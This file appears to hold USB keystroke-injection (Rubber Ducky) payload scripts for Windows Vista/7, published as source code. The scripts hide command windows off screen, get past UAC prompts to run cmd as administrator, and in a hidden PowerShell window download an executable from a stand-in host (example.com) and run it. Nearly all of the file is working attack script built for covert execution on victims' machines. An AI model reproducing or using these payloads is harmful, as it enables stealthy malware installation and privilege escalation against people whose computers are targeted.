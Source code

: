 REM The following is an example of how to hide the command window below the bottom of the screen while typing in commands. The window movement part of the script can also be used on any other window. CMD.exe is also run with some command line flags for changing the appearance of the window to make it harder to view, and also a flag that turns on delayed expansion in the command prompt which allows for variable names to be called more than once in a line with no adverse effects. Ex... SET Something = Something + Something_Else

REM Target: WINDOWS VISTA/7
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DELAY 3000
GUI r
DELAY 1000
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER

REM The following is an attempt to create a hide CMD window script that uses a key combo to run as administrator when UAC is turned on. 
REM Target: WINDOWS VISTA
REM Encoder V2.4
REM Purpose: Hide cmd window script that uses a key combo to circumvent UAC limitations. 
DELAY 3000
CONTROL ESCAPE
DELAY 500
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
CTRL-SHIFT ENTER
DELAY 1000
ALT C
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER

REM Other windows can be hidden also, as demonstrated in this powershell hide, get, and execute. 
REM Target: WINDOWS VISTA/7
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DELAY 3000
GUI r
DELAY 1000
STRING powershell (new-object System.Net.WebClient).DownloadFile('http://example.com/bob.old','%TEMP%\bob.exe'); Start-Process "%TEMP%\bob.exe"
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER

REM Windows can also be hidden on other sides of the screen ex... replace DOWNARROW with RIGHTARROW, LEFTARROW, UPARROW.
